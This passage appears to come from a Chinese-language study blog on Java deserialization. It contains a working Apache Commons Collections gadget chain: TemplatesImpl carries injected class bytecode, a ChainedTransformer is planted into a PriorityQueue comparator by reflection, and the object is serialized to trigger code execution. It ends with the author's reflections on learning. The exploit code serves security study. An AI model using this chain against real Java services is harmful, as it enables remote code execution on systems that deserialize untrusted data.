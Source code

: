 所以效仿之前可以在add之前将TransformingComparator的参数随便弄一个,然后add之后再通过反射来修改

```java
public static void main(String[] args) throws Exception {

        TemplatesImpl templates=new TemplatesImpl();
        Class<? extends TemplatesImpl> templatesClass = templates.getClass();
        Field name = templatesClass.getDeclaredField("_name");
        name.setAccessible(true);
        name.set(templates,"aaa");
        Field bytecodes = templatesClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[] code= Files.readAllBytes(Paths.get("H:\\java\\classTest\\MyClass.class"));
        byte[][] codes={code};
        bytecodes.set(templates,codes);

        Field tfactory = templatesClass.getDeclaredField("_tfactory");
        tfactory.setAccessible(true);
        tfactory.set(templates,new TransformerFactoryImpl());

        Transformer[] transformers= new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),

                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{templates})

        };
        Transformer Chainedtransform = new ChainedTransformer<>(transformers);
        TransformingComparator transformingComparator = new TransformingComparator<>(new ConstantTransformer<>(1));
        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);

        priorityQueue.add(1);
        priorityQueue.add(2);

        Class<? extends TransformingComparator> transformingComparatorClass = transformingComparator.getClass();
        Field transformingComparatorClassDeclaredField = transformingComparatorClass.getDeclaredField("transformer");
        transformingComparatorClassDeclaredField.setAccessible(true);
        transformingComparatorClassDeclaredField.set(transformingComparator,Chainedtransform);
        SerializeTest.serialize(priorityQueue);
        UnSerializeTest.unserialize("C:\\Temp\\test.bin");

    }

```

> 总结

在学习过程中,对于java的反射,代理,接口,等等基础知识有了更深刻的理解,尤其是在抽象类的部分,也感受到了什么叫"基础不牢,地动山摇",后序还有几条链没有复现,现在虽然都跟着做了一遍,但也仅仅是做了一遍,要是自己找反序列化链的话,估计没戏,所以接下来自己跟着思维导图,将每一种可能都模仿一层层找的方式复现一遍

![image-20220401003902537](https://blue-satchel.oss-cn-chengdu.aliyuncs.com/img/image-20220401003902537.png)
